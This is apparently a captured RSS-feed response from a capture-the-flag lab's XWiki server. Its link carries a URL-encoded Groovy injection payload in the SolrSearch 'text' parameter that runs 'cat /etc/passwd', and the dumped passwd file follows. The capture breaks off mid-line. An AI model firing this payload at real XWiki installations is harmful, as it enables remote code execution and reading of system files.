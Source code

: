```bash
<p>&lt;?xml version="1.0" encoding="UTF-8"?&gt;<br/>&lt;rss xmlns:dc="<span class="wikiexternallink"><a class="wikimodel-freestanding" href="http://purl.org/dc/elements/1.1/"><span class="wikigeneratedlinkcontent">http://purl.org/dc/elements/1.1/</span></a></span>" version="2.0"&gt;<br/>&nbsp;&nbsp;&lt;channel&gt;<br/>&nbsp;&nbsp;&nbsp;&nbsp;&lt;title&gt;RSS feed for search on [}}}root:x:0:0:root:/root:/bin/bash<br/>daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin<br/>bin:x:2:2:bin:/bin:/usr/sbin/nologin<br/>sys:x:3:3:sys:/dev:/usr/sbin/nologin<br/>sync:x:4:65534:sync:/bin:/bin/sync<br/>games:x:5:60:games:/usr/games:/usr/sbin/nologin<br/>man:x:6:12:man:/var/cache/man:/usr/sbin/nologin<br/>lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin<br/>mail:x:8:8:mail:/var/mail:/usr/sbin/nologin<br/>news:x:9:9:news:/var/spool/news:/usr/sbin/nologin<br/>uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin<br/>proxy:x:13:13:proxy:/bin:/usr/sbin/nologin<br/>www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin<br/>backup:x:34:34:backup:/var/backups:/usr/sbin/nologin<br/>list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin<br/>irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin<br/>gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin<br/>nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin<br/>_apt:x:100:65534::/nonexistent:/usr/sbin/nologin<br/>systemd-network:x:101:102:systemd Network Management<sub>,:/run/systemd:/usr/sbin/nologin<br/>systemd-resolve:x:102:103:systemd Resolver</sub>,:/run/systemd:/usr/sbin/nologin<br/>messagebus:x:103:104::/nonexistent:/usr/sbin/nologin<br/>systemd-timesync:x:104:105:systemd Time Synchronization<sub>,:/run/systemd:/usr/sbin/nologin<br/>pollinate:x:105:1::/var/cache/pollinate:/bin/false<br/>sshd:x:106:65534::/run/sshd:/usr/sbin/nologin<br/>syslog:x:107:113::/home/syslog:/usr/sbin/nologin<br/>uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin<br/>tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin<br/>tss:x:110:116:TPM software stack</sub>,:/var/lib/tpm:/bin/false<br/>landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin<br/>fwupd-refresh:x:112:118:fwupd-refresh user<sub>,:/run/systemd:/usr/sbin/nologin<br/>usbmux:x:113:46:usbmux daemon</sub>,:/var/lib/usbmux:/usr/sbin/nologin<br/>lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false<br/>dnsmasq:x:114:65534:dnsmasq<sub>,:/var/lib/misc:/usr/sbin/nologin<br/>mysql:x:115:121:MySQL Server</sub>,:/nonexistent:/bin/false<br/>tomcat:x:998:998:Apache Tomcat:/var/lib/tomcat:/usr/sbin/nologin<br/>xwiki:x:997:997:XWiki:/var/lib/xwiki:/usr/sbin/nologin<br/>netdata:x:996:999:netdata:/opt/netdata:/usr/sbin/nologin<br/>oliver:x:1000:1000:<sub>,:/home/oliver:/bin/bash<br/>_laurel:x:995:995::/var/log/laurel:/bin/false</sub>]&lt;/title&gt;<br/>&nbsp;&nbsp;&nbsp;&nbsp;&lt;link&gt;<span class="wikiexternallink"><a class="wikimodel-freestanding" href="http://wiki.editor.htb:80/xwiki/bin/view/Main/SolrSearch?text=%7D%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7Dprintln%28%22cat%20%2Fetc%2Fpasswd%22.execute%28%29.text%29%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D"><span class="wikigeneratedlinkcontent">http://wiki.editor.htb:80/xwiki/bin/view/Main/SolrSearch?text=%7D%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7Dprintln%28%22cat%20%2Fetc%2Fpasswd%22.execute%28%29.text%29%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D</span></a></span>&lt;/link&gt;<br/>&nbsp;&nbsp;&nbsp;&nbsp;&lt;description&gt;RSS feed for search on [}}}root:x:0:0:root:/root:/bin/bash<br/>daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin<br/>bin:x:2:2:bin:/bin:/usr/sbin/nologin<br/>sys:x:3:3:sys:/dev:/usr/sbin/nologin<br/>sync:x:4:65534:sync:/bin:/bin/sync<br/>games:x:5:60:games:/usr/games:/usr/sbin/nologin<br/>man:x:6:12:man:/var/cache/man:/usr/sbin/nologin<br/>lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin<br/>mail:x:8:8:mail:/var/mail:/usr/sbin/nologin<br/>news:x:9:9:news:/var/spool/news:/usr/sbin/nologin<br/>uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin<br/>proxy:x:13:13:proxy:/bin:/usr/sbin/nologin<br/>www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin<br/>backup:x:34:34:backup:/var/backups:/usr/sbin/nologin<br/>list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin<br/>irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin<br/>gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin<br/>nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin<br/>_apt:x:100:65534::/nonexistent:/usr/sbin/nologin<br/>systemd-network:x:101:102:systemd Network Management<sub>,:/run/systemd:/usr/sbin/nologin<br/>systemd-resolve:x:102:103:systemd Resolver</sub>,:/run/systemd:/usr/sbin/nologin<br/>messagebus:x:103:104::/nonexistent:/usr/sbin/nologin<br/>systemd-timesync:x:104:105:systemd Time Synchronization<sub>,:/run/systemd:/usr/sbin/nologin<br/>pollinate:x:105:1::/var/cache/pollinate:/bin/false<br/>sshd:x:106:65534::/run/sshd:/usr/sbin/nologin<br/>syslog:x:107:113::/home/syslog:/usr/sbin/nologin<br/>uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin<br/>tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin<br/>tss:x:110:116:TPM software stack</sub>,:/var/lib/tpm:/bin/false<br/>landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin<br/>fwupd-refresh:x:112:118:fwupd-refresh user<sub>,:/run/systemd:/usr/sbin/nologin<br/>usbmux:x:113:46:usbmux daemon</sub>,:/var/lib/usbmux:/usr/sbin/nologin<br/>lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false<br/>dnsmasq:x:114:65534:dnsmasq<sub>,:/var/lib/misc:/usr/sbin/nologin<br/>mysql:x:115:121:MySQL Server</sub>,:/nonexistent:/bin/false<br/>tomcat:x:998:998:Apache Tomcat:/var/lib/tomcat:/usr/sbin/nologin<br/>xwiki:x:997:997:XWiki:/var/lib/xwiki:/usr/sbin/nologin<br/>netdata:x:996:999:netdata:/opt/netdata:/usr/sbin/nologin<br/>oliver:x:1000:1000:<sub>,:/home/oliver:/bin/bash<br/>_laurel:x:995:995::/var/log/laurel:/bin/false</sub>]&lt;/description&gt;<br/>&nbsp;&nbsp;&nbsp;&nbsp;&lt;language&gt;en&lt;/language&gt;<br/>&nbsp;&nbsp;&nbs
```